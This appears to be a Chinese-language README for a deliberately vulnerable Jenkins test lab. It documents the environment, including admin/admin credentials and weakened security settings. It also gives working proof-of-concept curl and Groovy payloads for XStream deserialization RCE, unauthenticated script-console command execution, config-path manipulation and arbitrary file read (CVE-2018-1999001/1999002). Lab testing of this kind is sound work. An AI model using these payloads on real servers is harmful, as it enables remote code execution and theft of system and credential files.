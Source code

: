 ## 环境说明

- src/jenkins/2.121/

  - 管理账号

    admin/admin

  - 配置修改

    为测试任意文件读取漏洞，修改了默认的global Security设置中的Authorization，添加了Allow anonymous read access权限

  - 添加目录

    为测试任意文件读取漏洞，在/root/.jenkins/plugins/credentials/_目录

  - 版本信息

    该环境为去除[补丁](https://github.com/jenkinsci/jenkins/commit/29ca81dd59c255ad633f1bd86cf1be40a5f02c64)前的某commit打包生成，并非官方发布的2.121版本

## CVE-2016-0792 - XStream 反序列化漏洞

测试镜像

* src/jenkins/1.636/

参考文档

* [Jenkins - XStream Groovy classpath Deserialization (Metasploit)](https://www.exploit-db.com/exploits/43375/)

Poc

```
# 复制 /etc/passwd 到 /tmp
curl 'http://127.0.0.1/createItem?name=boh3ti8AGh' --data-binary '<map><entry><groovy.util.Expando><expandoProperties><entry><string>hashCode</string><org.codehaus.groovy.runtime.MethodClosure><delegate class="groovy.util.Expando"reference="../../../.."/><owner class="java.lang.ProcessBuilder"><command><string>/bin/bash</string><string>-c</string><string>cp /etc/passwd /tmp</string></command><redirectErrorStream>false</redirectErrorStream></owner><resolveStrategy>0</resolveStrategy><directive>0</directive><parameterTypes/><maximumNumberOfParameters>0</maximumNumberOfParameters><method>start</method></org.codehaus.groovy.runtime.MethodClosure></entry></expandoProperties></groovy.util.Expando><int>1</int></entry></map>' -H 'Content-Type: application/xml'
```

## 运维安全 - /script 无认证

测试镜像

* src/jenkins/1.636/

访问 /script，执行如下内容

```
println "cat /etc/passwd 2>&1".execute().text
```



## Jenkins配置文件路径修改漏洞(CVE-2018-1999001)

测试镜像

- src/jenkins/2.121/

影响版本

- Jenkins weekly 2.89 ~ 2.132
- Jenkins LTS 2.73.3 ~ 2.121.1

参考

- [Jenkins配置文件路径改动导致管理员权限开放漏洞](https://paper.tuisec.win/detail/81c0aad88426f6d)

POC

```shell
curl -H "Authorization: Basic Li46YW55LXBhc3N3b3Jk" "http://172.17.0.2/login?from=%2f"
```

执行后应返回HTTP ERROR 401，此时根目录下的config.xml被转移到了/users/$002e$002e目录下，可以使用CVE-2018-1999002的POC验证：

```shell
curl -H "Accept-Language: /../../../config" http://172.17.0.2/plugin/credentials/.xml
```

结果为404则利用成功




## Jenkins 任意文件读取漏洞(CVE-2018-1999002)

测试镜像

* src/jenkins/2.121/

影响版本

* Jenkins weekly <= 2.132
* Jenkins LTS <= 2.121.1

特殊说明

- 适用于jetty，但不适用于tomcat

参考

* [ Jenkins 任意文件读取漏洞分析](https://mp.weixin.qq.com/s/T6s2yB92wTPiQnQ9FpJ3MQ)

POC

读取config.xml

```shell
curl -H "Accept-Language: /../../../config" http://172.17.0.2/plugin/credentials/.xml
```

返回xml文件则利用成功